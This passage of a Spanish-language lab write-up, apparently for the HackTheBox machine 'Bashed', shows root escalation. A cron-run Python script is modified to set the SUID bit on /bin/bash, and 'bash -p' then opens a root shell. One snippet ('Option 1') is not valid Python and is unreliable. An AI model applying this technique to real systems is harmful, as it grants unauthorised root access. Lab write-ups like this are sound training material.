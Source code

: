Mmmmmm hagamos un **cat** al contenido:
```bash
scriptmanager@bashed:/scripts$ cat test.py 
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ cat test.txt 
testing 123!
```
Quiero pensar, que el script de **Python** se ejecuta automáticamente como una **tarea cron**, entonces debemos aprovecharnos de eso.

<h2 id="Root">Acceso como Root Usando Tarea Cron</h2>

Ahora, sabemos que podemos usar **nano** dentro la máquina víctima, vamos a modificar el script de **Python** para que modifique los permisos de la **bash**, para que cualquier usuario pueda entrar como **Root**. 

* Revisa los permisos de la bash:
```bash
scriptmanager@bashed:/scripts$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1037528 Jun 24  2016 /bin/bash
```

* Opción 1 - borra el contenido del script y pon lo siguiente:
```python
import os

chmod u+s /bin/bash
```

* Opción 2 - crea un script aparte con el mismo código que creamos en la opción 1:
```bash
echo "import os; os.system('chmod u+s /bin/bash');" > exploit.py
```

* Excelente, una vez que guardes y cierres o que hayas usado la opción 2, revisa los permisos de la **bash**:
```bash
scriptmanager@bashed:/scripts$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1037528 Jun 24  2016 /bin/bash
```

Listo, entra a la **bash** como **Root**:
```bash
scriptmanager@bashed:/scripts$ bash -p
bash-4.3# whoami
root
bash-4.3# cd /root
bash-4.3# ls -la
total 28
drwx------  3 root root 4096 Jun  2  2022 .
drwxr-xr-x 23 root root 4096 Jun  2  2022 ..
lrwxrwxrwx  1 root root    9 Jun  2  2022 .bash_history -> /dev/null
-rw-r--r--  1 root root 3121 Dec  4  2017 .bashrc
drwxr-xr-x  2 root root 4096 Jun  2  2022 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   66 Dec  4  2017 .selected_editor
-r--------  1 root root   33 Apr 17 14:24 root.txt
bash-4.3# cat root.txt
```
